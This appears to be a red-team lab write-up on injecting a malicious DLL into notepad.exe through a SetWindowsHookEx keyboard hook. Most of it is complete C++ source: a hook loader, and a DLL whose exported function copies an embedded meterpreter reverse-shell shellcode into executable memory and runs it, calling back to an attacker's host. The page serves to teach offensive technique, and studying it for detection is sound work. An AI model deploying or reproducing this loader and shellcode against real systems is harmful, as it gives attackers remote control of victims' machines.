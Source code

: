 # SetWindowHookEx Code Injection

Windows allow programs to install hooks to monitor various system events such as mouse clicks and keyboard key presses by using `SetWindowHookEx`.

In this lab `SetWindowHookEx` is used to inject a malicious DLL into notepad.exe, which then executes  meterpreter shellcode.

## Overview

The workflow of the technique is as follows:

1. Create a malicious DLL that exports one function, which when invoked, executes meterpreter shellcode
2. Create another program that loads the malicious binary by:
   1. Resolving address of the exported function
   2. Installing a keyboard hook. The hook is then pointed to the exported function
3. Notepad.exe is launched by the victim and a keypress is registered
4. Since keyboard events are hooked, notepad.exe loads in our malicious dll and invokes the exported function
5. Metepreter session is established on the attacking system

## Execution

Let's create a DLL with an export a function `spotlessExport` that executes meterpreter shellcode when invoked:

![](../../.gitbook/assets/annotation-2019-05-28-220920.png)

Compile the DLL and check if the export was successful. We can use `dumpbin.exe` to do this, but first we need to find it \(if we have Visual Studio installed\):

```csharp
cmd /c dir /s/b c:\dumpbin*
```

![](../../.gitbook/assets/annotation-2019-05-28-221427.png)

Then use it like so to dump the exported functions:

```text
dumpbin.exe dllhook.dll /exports
```

Below shows the output of exported functions for `dllhook.dll` as presented by `CFF Explorer` \(left\) and dumpin:

![](../../.gitbook/assets/annotation-2019-05-28-221340.png)

## Demo

Below shows the technique in action:

* Process Explorer \(top right\) with notepad \(bottom right\) selected
* In the middle - the code that installs the hook to all threads that are in the same desktop as the calling thread
* Attacking system with multi-handler on the left - ready to catch the meterpreter
* Once the hook is installed and a key is pressed in when notepad is in focus, `dllhook.dll` is loaded into `notepad.exe` process and our malicious exported function `exportedSpotless` is executed, which in turn results in a meterpreter shell

![](../../.gitbook/assets/hookdll.gif)

## Code

Both `hooks.cpp` and `dllhook.cpp` are provided below:

{% tabs %}
{% tab title="hooks.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

int main()
{
	HMODULE library = LoadLibraryA("dllhook.dll");
	HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

	HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
	Sleep(10*1000);
	UnhookWindowsHookEx(hook);

	return 0;
}
```
{% endtab %}

{% tab title="dllhook.cpp" %}
```cpp
#include "stdafx.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
	case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) int spotlessExport() {
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-setwindowshookexa" %}

{% embed url="https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=vs-2019" %}


